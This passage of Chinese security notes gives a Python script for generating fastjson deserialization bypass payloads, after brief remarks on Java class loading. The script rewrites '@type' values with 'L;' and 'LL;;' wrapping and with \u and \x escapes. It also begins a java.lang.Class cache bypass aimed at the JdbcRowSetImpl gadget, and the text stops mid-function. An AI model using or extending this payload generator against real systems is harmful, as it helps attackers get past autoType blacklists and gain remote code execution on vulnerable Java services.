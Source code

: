 * ClassLoader.loadClass：什么都不会执行！不进行初始化

* defineClass：什么都不做





一个fuzzing fastjson的脚本

```python
import json
from json import JSONDecodeError


class FastJsonPayload:
    def __init__(self, base_payload):
        try:
            json.loads(base_payload)
        except JSONDecodeError as ex:
            raise ex
        self.base_payload = base_payload

    def gen_common(self, payload, func):
        tmp_payload = json.loads(payload)
        dct_objs = [tmp_payload]

        while len(dct_objs) > 0:
            tmp_objs = []
            for dct_obj in dct_objs:
                for key in dct_obj:
                    if key == "@type":
                        dct_obj[key] = func(dct_obj[key])

                    if type(dct_obj[key]) == dict:
                        tmp_objs.append(dct_obj[key])
            dct_objs = tmp_objs
        return json.dumps(tmp_payload)

    # 对@type的value增加L开头，;结尾的payload
    def gen_payload1(self, payload: str):
        return self.gen_common(payload, lambda v: "L" + v + ";")

    # 对@type的value增加LL开头，;;结尾的payload
    def gen_payload2(self, payload: str):
        return self.gen_common(payload, lambda v: "LL" + v + ";;")

    # 对@type的value进行\u
    def gen_payload3(self, payload: str):
        return self.gen_common(payload,
                               lambda v: ''.join('\\u{:04x}'.format(c) for c in v.encode())).replace("\\\\", "\\")

    # 对@type的value进行\x
    def gen_payload4(self, payload: str):
        return self.gen_common(payload,
                               lambda v: ''.join('\\x{:02x}'.format(c) for c in v.encode())).replace("\\\\", "\\")

    # 生成cache绕过payload
    def gen_payload5(self, payload: str):
        cache_payload = {
            "rand1": {
                "@type": "java.lang.Class",
                "val": "com.sun.rowset.JdbcRowSetImpl"
            }
        }
```